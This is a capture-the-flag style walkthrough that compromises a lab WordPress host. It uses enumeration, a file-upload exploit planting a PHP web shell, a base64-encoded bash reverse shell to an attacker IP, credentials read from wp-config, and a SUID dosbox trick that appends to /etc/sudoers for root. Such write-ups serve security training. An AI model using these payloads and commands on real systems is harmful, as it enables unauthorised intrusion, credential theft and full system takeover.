Nmap Scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.228.105
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-18 09:04 IST
Nmap scan report for 192.168.228.105
Host is up (0.23s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
13000/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 26.76 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,80,3306,13000 192.168.228.105
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-18 09:04 IST
Nmap scan report for 192.168.228.105
Host is up (0.21s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:6a:f5:d3:30:08:7a:ec:38:28:a0:88:4d:75:da:19 (RSA)
|   256 43:3b:b5:bf:93:86:68:e9:d5:75:9c:7d:26:94:55:81 (ECDSA)
|_  256 e3:f7:1c:ae:cd:91:c1:28:a3:3a:5b:f6:3e:da:3f:58 (ED25519)
80/tcp    open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
|_http-title: Retro Gamming &#8211; Just another WordPress site
|_http-generator: WordPress 5.5.1
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.10
3306/tcp  open  mysql   MariaDB 10.3.24 or later (unauthorized)
13000/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Login V14

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.77 seconds
```

Visiting web server on port 80.

Nmap identifies that WordPress is running on TCP port 80, which I’ll enumerate with wpscan to identify installed plugins:
```sh
wpscan --url http://192.168.228.105
OR
wpscan --url http://192.168.228.105 -e ap --plugins-detection aggressive
OR
wpscan --url http://TARGET -e ap,at,u --plugins-detection aggressive
```


There are quite a few outdated plugins installed on the web server. I’ll use searchsploit to look for any public exploit scripts:


I’ll download the Arbitrary File Upload script:

Usage: 

Existing payload of file.

I need to edit the payload within the script in order confirm the RCE by file upload.
```sh
<?php system($_REQUEST['cmd']) ?>
```


Now I can simply run the exploit script providing the URL to the vulnerably WordPress site:
We put the payload in double quotes as single quotes were generating error.

Run the exploit.

The exploit appears to have ran successfully, so now I’ll navigate to the outputted URL in my browser and try to run a command:

Simply visiting the URl gave us blank page, so we added `?cmd=id` to it.

Now that I’ve confirmed I have RCE, I’ll run a base64 encoded bash reverse shell. Because adding plain command didn't give us shell.

```sh
echo "bash -i >& /dev/tcp/192.168.45.222/80 0>&1 " | base64
```
Placing the below command to `?cmd=`.
```sh
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIyMi84MCAwPiYxIAo= | base64 -d | bash 
```
Starting nc on port 80.



All this above things didn't work. So we get back to the basics and simply changed the payload in original exploit.
So we changed the payload in the exploit and run it.

And we got the shell.


## Privilege Escalation - Commander

Knowing that the web server is running WordPress, I’ll look in the wp-config.phpfile for any plaintext credentials:
```sh
find / -name *.php 2>/dev/null
```




`commander : CommanderKeenVorticons1990`

Here I find the password for the ‘commander’ user (CommanderKeenVorticons1990), which I can use to SSH into the box:

While searching for SUID binaries, we find that `dosbox` is present with the SUID bit set.
```sh
find / -perm -u=s -type f 2>/dev/null
```



However, attempting to run `dosbox` from the command line fails as it requires a graphical interface. Further enumeration reveals a VNC service on port 5901 that could give us GUI access.
First, I’ll check for any services that are only listening locally on the box.
```sh
netstat -nao | grep LISTEN
OR
ss -tulnp
```


I find that port 5901 is listening only on the loopback interface. Port 5901 is typically associated with VNC, a GUI remote access tool. In order to access this from my Kali box, I’ll kill my SSH shell and set up a local port forward, mapping port 5901 on the target, to my local host port 5901:
To access the VNC service securely, we’ll forward port 5901 to our machine using SSH.
```sh
ssh -L 5901:localhost:5901 commander@192.168.215.105
```


Now, from my local host, I can run vncviewer to access the VNC service.
With the tunnel active, we connect using `vncviewer`.
```sh
vncviewer localhost:5901
```


Entered password we found for user `commander`
Instead, I’ll attempt it from the VNC GUI, attempting to grant myself (commander) access to all sudo privileges:
```sh
LFILE='/etc/sudoers'
```
```sh
dosbox -c 'mount c /' -c "echo commander ALL=(ALL:ALL) ALL >> C:$LFILE" -c exit
```
Click o Applications on top left corner and open the terminal.

Based on the output, it appears to have been successful, so I’ll try and switch user’s (su) to root with sudo:
```sh
sudo su root
```



